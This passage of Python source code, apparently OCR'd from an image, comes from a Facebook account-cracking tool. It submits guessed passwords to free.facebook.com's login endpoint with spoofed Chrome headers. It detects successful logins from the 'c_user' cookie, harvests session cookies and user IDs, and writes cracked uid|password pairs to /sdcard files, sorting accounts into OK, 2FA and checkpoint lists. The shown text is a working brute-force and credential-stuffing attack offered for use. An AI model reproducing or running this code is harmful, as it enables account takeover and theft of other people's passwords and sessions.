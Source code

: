             "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            "cache-control": 'no-cache',
            "pragma": 'no-cache',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform":'"Windows"',
            "sec-fetch-dest": 'manifest',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "user-agent":pro,})
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[7:22]
                os.system("play-audio AMIRI-OK.mp3")
                print('\r\033[1;32m[AMIRI-OK] '+uid+' [√] '+ps+ '')
                cek_apk(session,coki)
                open('/sdcard/AMIRI-OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
            elif 'checkpoint' in log_cookies:
                if 'Enter login code to continue' in log_cookies:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    os.system("play-audio AMIRI_2F.mp3")
                    print('\r\033[1;34mAMIRI-2F] '+uid+' [~] '+ps+' ')
                    open('/sdcardAMIRI-2F.txt', 'a').write(uid+' | '+ps+'\n')
                    twf.append(uid)
                else:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    Red = '\033[1;31m'
                    os.system("play-audio AMIRI_CP.mp3")
                    print(f'\r\033[1;30mAMIRI-CP] '+uid+' [×] '+ps+ ' ')
                    open('/sdcardAMIRI-CP.txt', 'a').write(uid+' | '+ps+'\n')
                    cp.append(uid)
                    break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[MAFYIA 313🔥] [%s] \33[1;97m[OK:%s{hamii2}CP:%s]'%(loop,len(ok),len(cp))), 
        sys.stdout.flush()
        checks(ok,cp)
    except:
        pass



#---------------------[END MENU]---------------------#
if __name__ == '__main__':
    xyz()
